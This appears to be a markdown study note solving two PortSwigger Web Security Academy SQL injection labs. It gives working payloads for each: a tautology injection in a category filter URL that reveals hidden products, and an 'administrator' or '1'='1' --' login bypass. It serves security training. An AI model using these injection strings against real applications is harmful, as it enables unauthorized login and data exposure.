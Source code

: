 ```yaml
---
title: SQLi - APPRENTICE
tags: [Web, Portswigger Web Security Academy]

category: "Security/Practice/Portswigger Web Security Academy/SQL"
---
```


# SQLi - APPRENTICE
###### tags: `Portswigger Web Security Academy` `Web`
[TOC]

## Lab: SQL injection vulnerability in WHERE clause allowing retrieval of hidden data
* Hint: This lab contains a SQL injection vulnerability in the product category filter. When the user selects a category, the application carries out a SQL query like the following: `SELECT * FROM products WHERE category = 'Gifts' AND released = 1`
## Exp
Payload: `https://0a2700a903496ccd807a2626001400e3.web-security-academy.net/filter?category=%27%20or%20%271%27=%271%27%20--%20#`
:::spoiler Success Screenshot
![](https://i.imgur.com/pPKFYKj.png)
:::


---
## Lab: SQL injection vulnerability allowing login bypass
* Hint:  This lab contains a SQL injection vulnerability in the login function.
To solve the lab, perform a SQL injection attack that logs in to the application as the administrator user. 

## Exp
Payload:
Username: `administrator' or '1'='1' -- #`
Password: Arbitrary
:::spoiler Success Screenshot
![](https://i.imgur.com/dBm7zzB.png)
:::


## Reference
[Burp Suite Security Academy Writeup](https://github.com/frank-leitner/portswigger-websecurity-academy)